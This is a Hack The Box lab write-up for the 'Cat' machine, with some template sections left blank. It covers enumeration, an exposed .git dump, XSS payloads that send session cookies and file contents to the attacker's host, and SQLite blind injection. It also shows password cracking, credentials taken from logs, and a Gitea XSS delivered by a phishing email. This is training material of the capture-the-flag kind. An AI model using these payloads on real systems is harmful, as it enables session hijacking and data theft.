


### Hack The Box Writeup: Cat

## Overview

- **Machine Name**: Cat
- **Difficulty**: Medium
- **Platform**: Hack The Box
- **Operating System**: Linux
- **Key Objectives**: 
- **Date Solved**: July 2025


## Tools Used

- **Enumeration**: Nmap, 
- **Exploitation**: \[e.g., Metasploit, Custom Python scripts\]
- **Privilege Escalation**: \[e.g., LinPEAS, Windows Exploit Suggester\]
- **Other**: \[e.g., Burp Suite, Wireshark\]

## Methodology

### Initial Enumeration

```bash
ping -c 1 10.10.11.53
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.11.53 -oG allPorts
namp -sCV -p22,80 10.10.11.53 -oN targeted

# Add url into /etc/hosts
whatweb http://cat.htb
nmap --script http-enum -p80 10.10.11.53 -oN webScan

# ans
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /.git/HEAD: Git folder

# We can use git-hack or gitdumper
https://github.com/lijiejie/GitHack

>
# IN the accept_cat.php, theres axel user. We must use cookie session to enter like axel user

```
```html
<script>fetch("http://10.10.14.48/?=cookie_value="+document.cookie);</script>

```

```bash
# Open a python server
python3 -m http-server 80

# ans
10.10.11.53 - - [10/Jul/2025 23:09:46] "GET /?=cookie_value=PHPSESSID=a22o9c74k52dal86flnotma7k1 HTTP/1.1" 200 -

# Replace the current cookie with the new one
# Send request to burpsuite (http://cat.htb/accept_cat.php) and change the request method to POST
```


### Exploitation


```bash
# We can use sql injection (sqlite) based on the accpt_cat.php

# code
  $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
  $pdo->exec($sql_insert);

# When we sen d the request, we found that we need to add CatID and Cat Name
```


```bash
# Sending the name and cat id
Connection: keep-alive
Cookie: PHPSESSID=a22o9c74k52dal86flnotma7k1
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

catName=test&catId=3

```
### SQLI
```bash

INSERT INTO accepted_cats (name) VALUES ('test'||1/1||'')
INSERT INTO accepted_cats (name) VALUES ('test'||1/(substr((SELECT username FROM users limit 0,1),1,1)='a')||'')
# return code 200

INSERT INTO accepted_cats (name) VALUES ('test'||1/(substr((SELECT username FROM users limit 0,1),2,1)='x')||'')
# return code 200

# firtst user : axel

# We can create a python code to find users
```

### Python exploit
```bash

cculi668lhq38lqmn4efgpjjm2

users: axel,rosa,robert,fabian
passwords: rosa - ac369922d560f17d6eeb8b2c7dec498c

# we can decode the password with md5
https://hashes.com/en/decrypt/hash

ac369922d560f17d6eeb8b2c7dec498c:soyunaprincesarosa

# We can view logs
cat var/log/apache2/access.log


 x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [13/Jul/2025:01:32:12 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0""

axel - aNdZwgC4tI9gnVXv_e3Q

ssh axel@10.10.11.53
# ans

You have mail.
Last login: Fri Jan 31 11:31:57 2025 from 10.10.14.69

# To view the email, we can see the dir /var/mail

We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.

# We can use local  portforwarding to access
ssh axel@10.10.11.53 -L 3000:localhost:3000


```


### Privilege Escalation


```bash
gitea version 1.22

# exploiit 1.22 version
https://www.exploit-db.com/exploits/52077

# ans
## Steps to Reproduce
1. Log in to the application.
2. Create a new repository or modify an existing repository by clicking the Settings button from the `$username/$repo_name/settings` endpoint.
3. In the Description field, input the following payload:

    <a href=javascript:alert()>XSS test</a>

4. Save the changes.
5. Upon clicking the repository description, the payload was successfully injected in the Description field. By clicking on the message, an alert box will appear, indicating the execution of the injected script.

# First, we need to sign in like axel user
# Afte that, we need to create a repo with javascript code
# copy nada paste repo instructions and will see the xss injection of the dir

<a href=javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response => response.text()).then(data => fetch("http://10.10.14.48/?data="+btoa(data)))>XSS test</a>


http://localhost:3000/axel/pwn

echo -e "Subject: IMportant\n\nLook at this: http://localhost:3000/axel/test" | sendmail jobert@localhost


```


## Challenges Faced


## Lessons Learned


## References


---

*Written by edibuaer, July 2025. Feedback welcome at https://github.com/edibauer*